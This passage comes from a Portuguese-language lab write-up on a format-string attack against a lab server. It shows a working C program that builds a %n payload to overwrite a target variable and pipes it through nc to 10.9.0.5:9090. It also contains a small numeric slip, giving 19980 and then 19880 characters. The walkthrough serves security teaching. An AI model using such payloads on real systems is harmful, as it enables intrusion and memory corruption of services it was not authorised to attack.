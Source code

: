 Tal como pode ser observado na imagem, o valor da variável-alvo foi alterado:

```
The target variable's value(before): 0x11223344

...

The target variable's value (after): 0x0000012c
```

### Tarefa 3B: Mudar o valor para ```0x5000```

Sabemos que ```%n``` escreve o número de caracteres até então no _output_. Tendo em conta que o valor a escrever na variável-alvo é ```0x5000```, que é ```20480``` em decimal, temos de fornecer um _input_ com 20480 caracteres até ```%n```.

Levamos a cabo o ataque com um pequeno programa em C:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char input[] = "echo \x68\x50\x0e\x08%.19980X%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%n | nc 10.9.0.5 9090";

    system(input); return 0; }
```

Tal como na tarefa anterior, o _input_ começa pela posição de memória cujo conteúdo vamos alterar ("ao contrário", dado estarmos num contexto _little-endian_).

Queremos, então, ter 20480 caracteres de _input_ até ```%n``` e imprimimos, com todos os ```%x```, o conteúdo das 63 posições de memória até ao início do _buffer_ de _input_.

Neste caso, usamos ```%08x``` para garantir que, para cada uma das tais 63 posições de memória, 8 caracteres são impressos, dado que, com ```%x```, os zeros à esquerda são omitidos. Assim, ```63*8 = 504``` dos pretendidos 20480 já serão impressos.

Além disso, já temos os 4 bytes inicias que, como referido, especificam a posição de memória que afetaremos.

Então, resta-nos povoar os restantes 19980 caracteres do _input_. Para isso, usamos logo a seguir à especificação do endereço que nos interessa, ```%.19980X```, que povoará, automaticamente, 19880 caracteres com 0.

Compilando e correndo o programa, que, como se pode ver, já envia o _input_ direcionado ao servidor para uma consola, podemos então observar, no _output_ do servidor:
